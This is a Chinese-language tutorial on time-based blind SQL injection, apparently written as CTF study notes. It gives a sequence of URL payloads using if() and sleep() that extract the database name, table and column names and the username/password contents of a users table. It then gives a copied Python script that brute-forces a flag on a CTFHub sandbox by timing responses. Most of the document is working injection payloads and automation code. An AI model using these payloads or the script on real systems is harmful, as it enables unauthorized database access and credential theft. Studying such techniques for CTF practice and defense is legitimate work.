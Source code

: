 
#### 页面既无回显也无报错->时间盲注:
如果页面一直不变这个时候我们可以使用时间注入,时间注入和布尔盲注两种没有多大差别只不过时间盲注多了if函数和sleep()函数。if(a,sleep(10),1)如果a结果是真的,那么执行sleep(10)页面延迟10秒,如果a的结果是假,执行1,页面不延迟。通过页面时间来判断出id参数是单引号字符串

```sql
?id=1'' and if(1=1,sleep(5),1)--+
--+判断参数构造。
?id=1''and if(length((select database()))>9,sleep(5),1)--+
--+判断数据库名长度
 
?id=1''and if(ascii(substr((select database()),1,1))=115,sleep(5),1)--+
--+逐一判断数据库字符
?id=1''and if(length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>13,sleep(5),1)--+
--+判断所有表名长度
 
?id=1''and if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>99,sleep(5),1)--+
--+逐一判断表名
?id=1''and if(length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))>20,sleep(5),1)--+
--+判断所有字段名的长度
 
?id=1''and if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))>99,sleep(5),1)--+
--+逐一判断字段名
?id=1'' and if(length((select group_concat(username,password) from users))>109,sleep(5),1)--+
--+判断字段内容长度

?id=1'' and if(ascii(substr((select group_concat(username,password) from users),1,1))>50,sleep(5),1)--+
--+逐一检测内容。
```
还没学会自己写,抄来的时间盲注爆破字段内容脚本
```python
import requests
from time import perf_counter

# 设定环境URL，由于每次开启环境得到的URL都不同，需要修改！
url = 'http://challenge-72527e33bcba6c40.sandbox.ctfhub.com:10800/'
rs = requests.session()
# 把字母表转化成ascii码的列表，方便便利，需要时再把ascii码通过chr(int)转化成字母
ascii_range = range(ord('a'), 1 + ord('z'))
# flag的字符范围列表，包括花括号、横杠、a-z、数字0-9
flag_range = [45, 123, 125] + list(ascii_range) + list(range(48, 58))

# 爆flag
def get_flag(name_of_table, name_of_column):
    i = 1
    while True:
        for j in flag_range:
            whole_url = url + '?id=1 and if(ascii(substr((select {} from {}),{},1))={},sleep(1),1)'.format(name_of_table,name_of_column, i, j)
            t1 = perf_counter()
            rs.get(whole_url)
            t = perf_counter() - t1
            if t > 1:
                print(chr(j), end="")
                if chr(j) == '}':
                    print()
                    return 1
                break
        i = i + 1

```